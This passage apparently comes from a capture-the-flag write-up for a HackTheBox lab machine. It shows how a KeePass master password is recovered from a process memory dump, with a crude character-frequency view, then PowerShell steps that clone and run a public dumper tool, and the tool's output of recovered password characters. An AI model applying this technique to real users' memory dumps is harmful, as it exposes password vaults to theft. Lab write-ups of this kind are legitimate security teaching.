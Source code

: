     %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%%
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%%
    %%%%%%%%%%%%%%%%%


This method is crude, but I can see the third character is likely "d",
and then "g" then "r". This is what the exploit POCs will do, but a bit
smarter to find the most likely key.

#### Exploit from Windows

From a Windows VM, the exploit is rather straight forward. I'll clone
the repo to my host and go into that directory (if `git` isn't installed
in your Windows VM, you can also download the ZIP from GitHub and unzip
it):



    PS C:\Users\0xdf > git clone https://github.com/vdohney/keepass-password-dumper
    Cloning into 'keepass-password-dumper'...
    remote: Enumerating objects: 111, done.
    remote: Counting objects: 100% (111/111), done.
    remote: Compressing objects: 100% (79/79), done.
    remote: Total 111 (delta 61), reused 67 (delta 28), pack-reused 0
    Receiving objects: 100% (111/111), 200.08 KiB | 3.45 MiB/s, done.
    Resolving deltas: 100% (61/61), done.
    PS C:\Users\0xdf > cd .\keepass-password-dumper\



Then I just need to `dotnet run [dump]`:



    PS C:\Users\0xdf\keepass-password-dumper > dotnet run Z:\hackthebox\keeper-10.10.11.227\KeePassDumpFull.dmp
    ...[snip]...
    Password candidates (character positions):
    Unknown characters are displayed as "●"
    1.:     ●
    2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
    3.:     d,
    4.:     g,
    5.:     r,
    6.:     ø,
    7.:     d,
    8.:      ,
    9.:     m,
    10.:    e,
    11.:    d,
    12.:     ,
    13.:    f,
    14.:    l,
    15.:    ø,
    16.:    d,
    17.:    e,